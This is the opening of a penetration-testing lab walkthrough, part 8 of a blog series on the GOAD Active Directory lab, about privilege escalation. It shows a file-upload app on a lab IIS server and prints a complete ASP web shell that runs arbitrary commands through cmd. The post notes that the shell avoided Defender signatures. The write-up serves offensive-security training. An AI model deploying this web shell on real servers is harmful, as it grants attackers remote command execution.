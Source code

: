```yaml
---
layout: post
title:  "GOAD - part 8 - Privilege escalation"
category : [AD, GOAD]
tags :  AD, Lab, AMSI, krbrelay, printspoofer
---
```


In the previous post ([Goad pwning part7]({% link _posts/2022-09-12-GOADv2-pwning-part7.md %})) we tried some attacks with MSSQL on the domain.
This time we will get a web shell on IIS and try some privilege escalation techniques.

## IIS - webshell

- There is a simple asp.net application on http://192.168.56.22/, this application only give us a simple file upload functionality.

![privesc_iss_upload.png](/assets/blog/GOAD/privesc_iss_upload.png)

- From there we can upload a basic webshell in asp : webshell.asp (at the time of writing, this avoid defender signature)

```asp
<%
Function getResult(theParam)
    Dim objSh, objResult
    Set objSh = CreateObject("WScript.Shell")
    Set objResult = objSh.exec(theParam)
    getResult = objResult.StdOut.ReadAll
end Function
%>
<HTML>
    <BODY>
        Enter command:
            <FORM action="" method="POST">
                <input type="text" name="param" size=45 value="<%= myValue %>">
                <input type="submit" value="Run">
            </FORM>
            <p>
        Result :
        <% 
        myValue = request("param")
        thisDir = getResult("cmd /c" & myValue)
        Response.Write(thisDir)
        %>
        </p>
        <br>
    </BODY>
</HTML>
```

